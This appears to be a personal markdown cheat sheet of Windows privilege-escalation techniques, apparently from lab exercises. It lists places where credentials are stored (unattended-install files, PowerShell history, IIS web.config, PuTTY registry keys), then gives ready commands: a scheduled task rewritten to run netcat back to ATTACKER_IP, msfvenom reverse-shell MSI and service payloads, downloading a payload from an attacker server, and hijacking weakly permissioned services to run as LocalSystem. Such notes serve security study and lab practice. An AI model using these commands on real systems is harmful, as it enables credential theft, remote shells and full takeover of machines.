


# Windows
tip: use remmina for RDP
## Harvesting passwords from usual spots

Here can be passwords stored
<pre>
    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml
</pre>

### Powershell history
It can be stored in powershell history

use cmd.exe to execute this command
<pre>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</pre>

if you want to use powershell change `%userprofile%` to `$Env:userprofile`  

### Saved Windows Credentials
Here can be saved credentials, we can't see the password but we can use it to run cmd with user's privilage
<pre>
cmdkey /list

runas /savecred /user:admin cmd.exe</pre>

### IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations: 

<pre>

    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    type C:\inetpub\wwwroot\web.config | findstr connectionString
</pre>

### PuTTY
PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

## quick escalation

### Scheduled Tasks

Run `schtasks` for list of sheduled tasks  
For details about task run `schtasks /query /tn TASK-NAME /fo list /v` 

To check if we the permissions we can rut `icacls FILE` 

if you can locate nc64.exe file you can get reverse shell
<pre>
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > c:\TASK

nc -lvp 4444
</pre>

Than run that task manualy

`schtasks /run /tn TASK`

### AlwaysInstallElevated

These two registry needs to be set 
<pre>
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
</pre>

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

than run on target system 

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Service Misconfigurations
get info 
`sc qc <service>`

### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

Use `icacls` to see permissions

We can see (M) permission. That means we can modify the file.

`SERVICE_START_NAME` is the account used to run the service.

#### On attacker's machine
We can create a rev shell, start a python server and start listening.
<pre>
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

python3 -m http.server

nc -lvp 4445
</pre>

#### On windows machine
Use wget in powershell
<pre>
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

cd C:\PROGRA~2\SYSTEM~1\

move WService.exe WService.exe.bkp

move C:\Users\thm-unpriv\rev-svc.exe WService.exe

icacls WService.exe /grant Everyone:F

sc stop windowsscheduler

sc start windowsscheduler
</pre>

### Unquoted Service Paths

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

example `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`

1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

Check if you have permisions in that folder, ussualy `C:\Program Files` and `C:\Program Files (x86)` are't writabble by unprivileged user.
<pre>icacls c:\MyPrograms</pre>

You can again create a file and start a reverse shell as above.

### Insecure Service Permissions

To check for a service DACL from the command line, you can use [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite.

<pre>accesschk64.exe -qlc thmservice</pre>

Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Create rev shell `rev-svc3.exe`
<pre>
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F

sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

sc stop THMService

sc start THMService

</pre>

